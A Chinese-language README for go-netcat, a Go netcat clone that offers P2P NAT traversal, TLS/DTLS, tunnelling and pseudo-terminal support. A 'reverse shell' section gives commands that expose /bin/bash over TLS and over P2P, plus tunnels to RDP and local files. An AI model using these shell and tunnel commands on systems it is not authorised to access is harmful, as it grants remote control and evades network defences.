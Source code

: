 ## go-netcat 简介

golang版 netcat, 更方便的建立点对点通信。

有以下特点：

 - 🔁 自动化内网穿透：使用 -p2p 自动实现 TCP/UDP 的 NAT 打洞与点对点连接，无需手动配置，依赖公共 TURN 和 MQTT 服务交换地址信息。

 - 🚀 UDP 稳定传输通道：集成 KCP 协议，TCP无法穿透NAT的情况，用基于UDP的KCP也能保持通信的可靠性。

 - 🔒 加密支持：支持 TCP 的 TLS 和 UDP 的 DTLS 加密传输。

 - 🧩 可嵌入服务程序：通过 -exec 将工具作为子服务启动，结合多路复用能力，支持流量转发、Socks5代理和http文件服务等场景。

 - 🖥️ 伪终端支持：配合 -exec 和 -pty，为类似 /bin/sh 的交互式程序提供伪终端环境，增强 shell 控制体验（支持 TAB、Ctrl+C 等）。

 - 💻 原始输入模式：-pty 启用控制台 raw 模式，在获取 shell 时提供更贴近原生终端的操作体验。

 - 📈 实时速度统计：提供发送与接收方向的实时速度统计，便于测试传输性能。


## 例子

- 这个工具可以像nc那样用，例如

    `gonc.exe www.baidu.com 80`

    `gonc.exe -tls www.baidu.com 443`


- 用TCP直接在两个内网P2P通信，要自己约定一个唯一ID，例如 randomString ，每次用都随机换ID避免和别人一样。

    `gonc.exe -p2p randomString`

    另一端用也完全一样的的参数，程序会自己尝试TCP或UDP建立通信，自己协商角色（tls client/server）并完成TLS协议

    `gonc.exe -p2p randomString`


- 支持使用socks5代理

    `gonc.exe -s5 s.s.s.s:port x.x.x.x 1234`

- 反弹shell，类UNIX支持pseudo-terminal shell 

    监听

    `gonc -tls -pty -exec /bin/bash -l 1234`

    连接获得shell(windows和linux都支持console raw模式，该模式下支持TAB、ctrl+c等输入)

    gonc.exe -tls -pty x.x.x.x 1234

    还可以P2P的方式反弹shell：

    `gonc -tls -pty -exec /bin/bash -p2p-tcp randomString`

    另一端这样可以得到shell

    `gonc -tls -pty -p2p-tcp randomString`


- 还可以像socat那样建立左右两个通道转发数据

    `gonc.exe -keep-open -exec "./gonc -tls www.baidu.com 443" -l 8000`
    
    另一端用

    `gonc.exe 127.0.0.1 8000 > NUL`

- 发送和统计传输速度，内置/dev/zero和/dev/urandom实现，这样windows下也可以用/dev/zero和/dev/urandom

    `gonc.exe -sendfile /dev/zero -progress x.x.x.x 1234`

    `IN: 76.8 MiB (80543744 bytes), 3.3 MiB/s | OUT: 0.0 B (0 bytes), 0.0 B/s | 00:00:23`

    另一端用

    `gonc.exe -l 1234 > NUL`

- 建立P2P隧道并提供端口转发、socks5代理或http文件服务器
    
    端口转发

    `gonc.exe -p2p randomString -exec "-app-mux 127.0.0.1 3389"`

    或

    `gonc.exe -p2p randomString -exec "-app-mux socks5"`

    或

    `gonc.exe -p2p randomString -exec "-app-mux httpserver c:/RootDir"`


    另一端(本机监听端口)，例如对端使用了httpserver参数，那么访问本机9999端口可实现浏览对端的文件列表

    `gonc.exe -p2p randomString -exec "-app-mux -l 9999"`
